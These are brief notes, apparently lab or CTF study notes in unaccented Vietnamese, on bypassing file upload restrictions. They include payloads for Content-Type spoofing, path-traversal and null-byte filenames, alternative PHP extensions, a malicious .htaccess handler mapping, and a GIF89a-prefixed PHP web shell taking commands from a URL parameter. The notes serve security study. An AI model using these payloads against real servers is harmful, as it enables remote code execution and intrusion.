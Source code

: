 # File Upload
1. Sua `Content-Type: image/jpeg`
2. Path traversal: `Content-Disposition: form-data; name="avatar"; filename="..%2fhaha.php"`
3. Black list: Dung `.phar`, `.phtml`
4. Upload file `.htaccess`

`Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: text/plain

AddType application/x-httpd-php .t1en`

Gio co the upload file bat ky co duoi la `.t1en`(haha.t1en)

5. `Content-Disposition: form-data; name="avatar"; filename="haha.php%00.png"`

6. file signatures: `GIF89a;<?php system($_GET['cmd']); ?>`

[file signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)

7. chua hieu cach lam
